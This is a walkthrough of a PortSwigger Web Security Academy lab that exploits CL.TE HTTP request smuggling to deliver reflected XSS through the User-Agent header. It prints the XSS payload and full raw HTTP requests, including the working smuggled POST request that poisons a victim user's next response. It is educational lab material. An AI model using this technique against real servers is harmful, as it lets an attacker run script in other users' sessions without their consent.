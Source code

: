 
# Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling

- https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo

- https://portswigger.net/web-security/request-smuggling/exploiting




![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/1.png)

---------------------------------------------

Generated link: https://0a1700ce0389844181edcf97005800c5.web-security-academy.net/

There is a functionality to post a comment:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/2.png)

It is a POST request. We see the User Agent in a parameter:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/3.png)

We intercept and change the User Agent when accessing “/post?postId=6”:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/4.png)

And the parameter “UserAgent” in the POST request to post the comment is now the XSS payload:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/5.png)

So the User Agent is stored and sent when creating the comment. If we set a random value and read the code of the page we can see it is stored as a hidden value in HTML:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/6.png)

We see the value "TESTING":



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/7.png)

We can try to exploit this with a payload like:

```
useragent"><script>alert(1)</script><a href="/test
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/8.png)

And the alert message appears:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/9.png)

The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/10.png)

From the lab description we have this:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/11.png)

In the blog post we can read:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/12.png)

And there are 3 types of HTTP smuggling:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/13.png)

The front-end server doesn't support chunked encoding so the result from the Burp extension is CL.TE:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/14.png)

How to exploit it:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/15.png)

We try to send the malicious GET request after a 0 in the POST request:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/16.png)

If we visit the website we get an invalid request response:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/17.png)

I had to add the Content-Length and at least one character:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/18.png)

```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```